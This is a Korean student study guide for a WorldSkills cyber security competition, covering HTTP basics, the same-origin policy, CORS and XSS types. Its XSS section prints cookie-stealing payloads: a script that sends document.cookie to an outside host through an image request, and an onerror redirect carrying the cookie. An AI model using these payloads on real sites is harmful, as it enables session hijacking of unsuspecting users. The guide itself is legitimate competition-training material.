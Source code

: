 ```yaml
---

# 🛡 사이버 보안 *Cyber Security* 🔐
## 🖋 *Written by **Donghyun Choi*** (**KGU**)
###### ⚔ - Worldskills Korea ▫ National 2025 (Cyber Security Practices) - 🏹 [ *Written by NullBins* ]
- By default, Solves problems using only Kali Linux.
- ❗❗ **Never attempt to use this guide on a commercial site or server. You do so at your own risk.** ❗❗
- ❗❗ **절대로 이 가이드를 보고 상용 중인 사이트나 서버에 시도하지 마십시오. 해당행위로 생기는 책임은 본인에게 있습니다.** ❗❗

# [ *Project-3* ] <*⚔Hacking Guides🛠*>

---
```


## 1. 🌐웹 해킹 (Web Hacking)
- **HTTP 헤더 (HTTP Header)**: HTTP 헤더의 각 줄은 `CRLF`로 구분되며, 첫 줄은 `Start Line`, 나머지 줄은 `Header`라고 부른다. 헤더의 끝 줄은 빈 줄로 나타낸다.
- **CRLF**: `CR(Carriage Return)`과 `LF(Line Feed)`의 조합을 나타낸다. **CR**은 커서를 현재 줄의 맨 앞으로 이동시키는 문자, **LF**는 커서 다음 줄로 문자이다.
- 윈도우에서는 줄을 종결하기 위해 `CRLF`를 사용하고, 리눅스나 유닉스 기반 운영체제에서는 `LF`만을 사용한다.
- **HTTP 요청의 시작줄**은 `메소드(Method)`, `요청 대상(Request Target)`, `HTTP 버전`으로 구성된다. (ex. POST /login HTTP/1.1)
- **URL(Uniform Resource Locator)**: `웹에 있는 리소스의 위치`를 표현하는 문자열이다.
- **URL**은 http(`schema`)://cybersecurity.skills:8080(`authority`)/login(`path`)?id=user01(`query`)#name(`fragment`) 로 표현된다.
- **Fragment**는 *메인* 리소스에 존재하는 *서브* 리소스에 접근할때 이를 식별하기 위한 정보를 담고있다.
### **쿠키 생성 JavaScript 명령어**
```javascript
document.cookie = "name=test;"
document.cookie = "age=30;"
```
- **SOP(Same Origin Policy)** 란 동일 출처 정책으로서 보안 메커니즘이다. 이걸 사용하는 이유는 *브라우저는 웹 리소스를 통해 간접적으로 `타 사이트를 접근할때`도 인증 정보인 쿠키를 함께 전송하는 특징때문이다.*
- 이 SOP를 적용하게 되면 `스키마`, `호스트`, `포트`만 달라도 Cross Origin으로 인식하게 된다. 오로지 Path만 허용하게 된다.
- 예를들어 `https://meister.hrdkorea.or.kr` 이라는 사이트에 접속하여 밑에 있는 명령어를 입력하게 되면 SOP가 적용되어 있는 사이트의 경우 `Origin 오류`가 생긴다.
### Cross Origin 공격
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
console.log(crossNewWindow.location.href);
```
- 하지만 밑의 명령어 처럼 데이터를 쓰는것은 문제없이 동작한다.
### 데이터 쓰기
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
crossNewWindow.location.href = "https://meister.hrdkorea.or.kr";
```
- 사이트의 호스트가 달라 SOP때문에 정보를 교환하지 못할때 이러한 Cross Origin 정책을 완화시켜주는 방식은 `CORS(Cross Origin Resource Sharing)`이다.
- **Stored XSS**: `악성 스크립트가 서버에 저장`되고 `서버 응답에 담겨오는` XSS
- **Reflected XSS**: `악성 스크립트가 URL에 저장`되고 `서버 응답에 담겨오는` XSS
- **DOM-Based XSS**: `악성 스크립트가 URL Fragment에 저장`되는 XSS
- **Universal XSS**: 브라우저 플러그인 취약점으로 `SOP 정책을 우회하는` XSS
### XSS 스크립트
```html
<script>
document.cookie;
alert(document.cookie);
document.cookie = "name=test;";
new Image().src = "https://meister.hrdkorea.or.kr?cookie=" + document.cookie;
document;
document.write = "You have been Hacked!";
</script>
<img src="XSS" onerror="location.href = '?cookie=' + document.cookie">
```

---

## 2. 🛠리버스 엔지니어링 (Reverse Engineering)
- 도구: radare2, ghidra, gdb, objdump
